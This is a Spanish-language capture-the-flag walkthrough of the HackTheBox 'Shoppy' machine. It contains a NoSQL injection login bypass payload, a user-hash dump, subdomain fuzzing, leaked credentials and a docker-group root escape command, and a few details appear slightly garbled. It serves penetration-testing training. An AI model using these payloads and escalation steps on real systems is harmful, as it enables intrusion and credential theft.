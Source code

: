 # Máquina "Shoppy" de HackTheBox

## Características

- Linux
- Fácil
- Virtual Hosting
- Subdomain enumeration 
- NoSQL Injection (Admin Auth Bypass)
- Abusing The Shoppy App search engine (NoSQL injection) Obtaining the password of DB users
- Cracking hashes online
- Login to Mattermost + Information Leakage
- Abusing Sudoers privilege
- Binary Analysis - GHIDRA [reverse engineering] 
- Abusing Docker Group [privilege escalation]

## Útil en

- eWPT
- OSWE
- OSCP

**IP:** 10.10.11.180

## Escaneo de puertos

```bash
nmap -p- --min-rate 10000 10.10.11.180
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat
```

```bash
nmap -p 22,80,9093 -sCV 10.10.11.180
```

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http     nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Tue, 10 Jan 2023 21:41:55 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 4
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 4
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.8561e-05
|     go_gc_duration_seconds{quantile="0.25"} 8.7123e-05
|_    go_gc_dur
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento Web

Solo hay dos puertos abiertos. Cuando intentamos acceder a la página web no se muestra, así que la agregaremos al `/etc/hosts`. Una vez hecho esto, vemos:

![Web Principal](/secciones/posts/imagenes/shoppy/web1.webp)

Verifiqué el código fuente y con Burp Suite inspeccioné los encabezados y las solicitudes. Recibimos un mensaje de error: vaya a `shoppy.htb/hello`. Esto devuelve el mensaje de error "No se puede OBTENER /hello". Esto es cosa de Node.js, básicamente se trata de JavaScript en segundo plano.

Después de eso, intenté hacer lo mismo y traté de ir a `/login` y encontré la página de inicio de sesión del administrador.

## Explotación - NoSQL Injection

Primero, intenté inyectar esta carga útil para la contraseña y no funcionó:

```
'+o'1'='1 — -
```

Cambiar el tipo de contenido a `application/json` no funcionó, la inyección al nombre de usuario tampoco funcionó. Mi objetivo es devolver el mensaje de error o recibir una respuesta interesante. Después de eso, eliminé el parámetro de contraseña y devolvió mensajes de error JSON.

![Burp Request](/secciones/posts/imagenes/shoppy/burp1.webp)

Intentaremos con una consulta NoSQL:

```
Username=admin'||'1'=='1
Password=123123
```

Esta carga útil funciona y nos redirige a la página de administración.

Usé la función "buscar usuario" y busqué "admin", devuelve el archivo y cuando lo descargué, en el archivo existen valores de username, password e ID.

Busqué nuevamente con `admin'||'1'=='1` y esto nos da todos los usuarios que tenemos: admin y josh. Podemos intentar descifrar los hashes de contraseñas.

Primero guardé los hashes en un archivo txt.

## Cracking de Hashes

https://crackstation.net devolvió el formato y el valor de los hashes. No encontró el hash de admin, pero devolvió el formato de hash MD5 y el valor de contraseña de Josh.

Nmap había encontrado dos puertos abiertos, uno de ellos es SSH. Intenté conectar por SSH usando el resultado del hash, pero no tuvimos resultados.

## Enumeración de Subdominios

Vamos a buscar subdominios:

```bash
ffuf -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquerk-subdomains-top100000.txt -fw 5
```

Encontramos "mattermost", agregamos esto al archivo `/etc/hosts`. Nos devuelve una página en la que iniciaremos correctamente desde josh.

![Josh Login](/secciones/posts/imagenes/shoppy/josh1.webp)

Dentro encontraremos unas credenciales con las que sí podremos iniciar por SSH.

## Escalada de Privilegios

```bash
ls -la /home/deploy
```

Devuelve muchos archivos, algunos de ellos interesantes. Intenté abrirlos todos uno por uno para obtener información útil.

Tenemos acceso denegado a muchos comandos desde este usuario. Podemos ver la ruta `/home/deploy/password-manager` que es un administrador de contraseñas.

```bash
strings -el /home/deploy/password-manager
```

Con los siguientes comandos intenté abrir Sample:

```bash
sudo -u deploy /home/deploy/password-manager
```

**Password:** Sample

Y tenemos nuevas credenciales con las que intentaremos conectar por SSH y accedemos como deploy. Hacemos `id` para obtener que somos parte del grupo docker.

## Explotación del Grupo Docker

Lanzamos:

```bash
docker run --rm -it -v /:/mnt alpine /bin/sh
```

Después de este comando lo haremos en el container:

- Parámetro `--rm` = eliminar el contenedor cuando esté listo
- Parámetro `-it` = terminal interactivo  
- Parámetro `-v` = para el punto de montaje

Una vez dentro hacemos:

```bash
cd /mnt
chroot . /bin/bash
```

Luego de esto encontramos la flag de root.

---

**Nota:** Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido a que en algunas de las máquinas que realicé, no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También si encuentras faltas de ortografía o cualquier error, puedes contactarme a mi correo.